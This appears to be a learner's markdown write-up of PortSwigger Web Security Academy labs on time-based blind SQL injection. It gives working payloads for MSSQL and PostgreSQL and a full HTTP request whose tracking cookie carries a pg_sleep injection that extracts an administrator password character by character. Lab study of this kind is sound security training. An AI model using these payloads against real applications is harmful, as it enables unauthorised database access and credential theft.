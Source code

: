 ```yaml
---
tags: ["time based sqli", "sqli", "postgresql"]
image: "img/Portswigger/sql-injection.png"
---
```


# Time based SQLi

In the preceding example, suppose that the application now catches database errors and handles them gracefully. Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

`'; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--`

The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

## Lab 1

--> I tried different payloads for different languages and then i found the database as `postgresql`

--> Then i used this payload :

`'||(SELECT pg_sleep(10))--`

![](Attachments/Pastedimage20211003083304.png)

## Lab 2

--> we need to url encode our payload

```bash
GET / HTTP/1.1
Host: ac561f391f05b39780dc3ba500db005d.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: TrackingId=Z1vLE0dJIDLqmubp'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--; session=9C0MvWcMHNxQpDVq5C7najb7EK9vqN8M
Upgrade-Insecure-Requests: 1
```

--> i got these results

![](Attachments/Pastedimage20211003130049.png)

--> after sorting them i got the password !

`y40d3082rrsk1kpvbsds`

![](Attachments/Pastedimage20211003130007.png)
